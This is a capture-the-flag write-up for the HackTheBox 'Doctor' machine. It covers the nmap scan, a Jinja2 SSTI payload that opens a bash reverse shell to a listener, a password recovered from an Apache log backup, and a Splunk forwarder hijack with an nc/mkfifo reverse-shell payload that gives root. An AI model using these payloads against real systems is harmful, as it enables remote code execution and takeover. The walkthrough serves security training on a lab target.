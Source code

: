![DOCTOR](banner.png)

```
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 59:4d:4e:c2:d8:cf:da:9d:a8:c8:d0:fd:99:a8:46:17 (RSA)
|   256 7f:f3:dc:fb:2d:af:cb:ff:99:34:ac:e0:f8:00:1e:47 (ECDSA)
|_  256 53:0e:96:6b:9c:e9:c1:a1:70:51:6c:2d:ce:7b:43:e8 (ED25519)
80/tcp   open  http     Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Doctor
8089/tcp open  ssl/http Splunkd httpd
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Splunkd
|_http-title: splunkd
| ssl-cert: Subject: commonName=SplunkServerDefaultCert/organizationName=SplunkUser
| Not valid before: 2020-09-06T15:57:27
|_Not valid after:  2023-09-06T15:57:27
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Foothold

At the website on port 80 we get the hint of another domain name called `doctors.htb`. Mind the small difference of just a `s` at the end of `doctor`.

![email.png](email.png)
So we add this domain to our `etc/hosts` too.

On that domain (`doctors.htb`) we find an registration page. Here we simply create a fake user.
Watching the source code we find an archive and a form for new entries:

![archive.png](archive.png)

Logged in there is a form for new entries at http://doctors.htb/post/new.

Like always we try SSTI first. Using a term like `{{7*7}}` gives us a calculated output at http://doctos.htb/archive of 49. (Look at the source code).

Because our input gets calculated someweher we can set up a payload here to receive a shell like:
```
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("bash -c 'bash -i >& /dev/tcp/10.10.14.23/1337 0>&1'").read()}}{%endif%}{%endfor%}
``` 
Now we can set this up as a title of a new post:

![payload_posted.png](payload_posted.png)

Setting up a listener and visiting http://doctos.htb/archive we receive a shell as user `web@doctor`.

![shell.png](shell.png)
## User

As web we are not user yet. In the homes path we can find a user called `shaun`.

Enumerating the machine we find various files like a backup at `/var/log/apache2`.
Inside the backup we find a password `Guitar123`.
Apparently that's the password for user `shaun` as we can just switch to him with `su shaun` and the given password.

## Root

While enumerating with LinPeas we find that the splunk service from the nmap output on port 8089 is runned by root:
![splunk_root.png](splunk_root.png)

Searching for vulnerabilities we found the following: 
https://airman604.medium.com/splunk-universal-forwarder-hijacking-5899c3e0e6b2

Let's try to use that [PySplunkWhisperer](https://github.com/cnotin/SplunkWhisperer2/tree/master/PySplunkWhisperer2).
First we set up a payload like:
```sh
mkfifo /tmp/lol;nc 10.10.14.20 4242 0</tmp/lol | /bin/sh -i 2>&1 | tee /tmp/lol
```
So the whole command is:
```sh
python3 ./PySplunkWhisperer2_remote.py --username shaun --password Guitar123 --host 10.129.194.124 --lhost 10.10.14.53 --payload "mkfifo /tmp/lol;nc 10.10.14.53 4242 0</tmp/lol | /bin/sh -i 2>&1 | tee /tmp/lol"
```

Setting up a listener and running up the tool gives us a root shell:

![root_shell.png](root_shell.png)

